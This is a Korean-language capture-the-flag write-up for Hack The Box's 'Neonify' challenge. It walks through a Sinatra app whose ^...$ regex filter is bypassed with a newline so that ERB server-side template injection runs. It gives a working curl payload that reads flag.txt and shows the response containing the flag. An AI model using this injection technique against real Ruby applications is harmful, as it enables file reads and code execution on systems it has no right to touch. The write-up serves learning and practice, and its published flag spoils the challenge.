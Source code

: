 # Neonify
![Ruby](https://img.shields.io/badge/ruby-%23CC342D.svg?style=for-the-badge&logo=ruby&logoColor=white)


![image](https://github.com/user-attachments/assets/7a59c2b2-2607-489b-b07f-1880aa5dc6af)

## Source Code analysis
```
FROM ruby:2.7.5-alpine3.15

# Install supervisor
RUN apk add --update --no-cache supervisor

# Setup user
RUN adduser -D -u 1000 -g 1000 -s /bin/sh www

# Copy challenge files
RUN mkdir /app
COPY challenge/              /app
COPY config/supervisord.conf /etc/supervisord.conf

# Install dependencies
WORKDIR /app
RUN bundle install
RUN gem install shotgun

# Expose the app port
EXPOSE 1337

# Start supervisord
ENTRYPOINT ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"]
```
- ```Dockerfile```을 보면 ```flag```가 루트 디렉토리(```challenge/```)아래에 있다는 것을 알 수 있다.

```
class NeonControllers < Sinatra::Base
  configure do
    set :views,      "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end
end
```
- 위 코드는 ```ruby```로 작성된 Web Application Server 이다.
- ```POST```요청 시 정규 표현식 블랙리스트를 우회하여 SSTI를 해야한다.
- 정규식을 처리할 때 ```=~```로 처리하지만 ```[0~9a-z]```는 개행을 명시적으로 제외하지 않으면 거르지 못한다.

## PoC
```
curl -X POST \
  -d 'neon=a%0A%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' \
  http://159.65.20.166:31584/
```
- 요청시 개행을 추가하여 정규식 블랙리스트 우회

```
<!DOCTYPE html>
<html>
<head>
  <title>Neonify</title>
  <link rel="stylesheet" href="stylesheets/style.css">
  <link rel="icon" type="image/gif" href="/images/gem.gif">
</head>
<body>
  <div class="wrapper">
    <h1 class="title">Amazing Neonify Generator</h1>
    <form action="/" method="post">
      <p>Enter Text to Neonify</p><br>
      <input type="text" name="neon" value="">
      <input type="submit" value="Submit">
    </form>
    <h1 class="glow">
      a<br>
      HTB{r3pl4c3m3n7_s3cur1ty}
    </h1>
  </div>
</body>
</html>
```
- 응답으로 플래그 획득
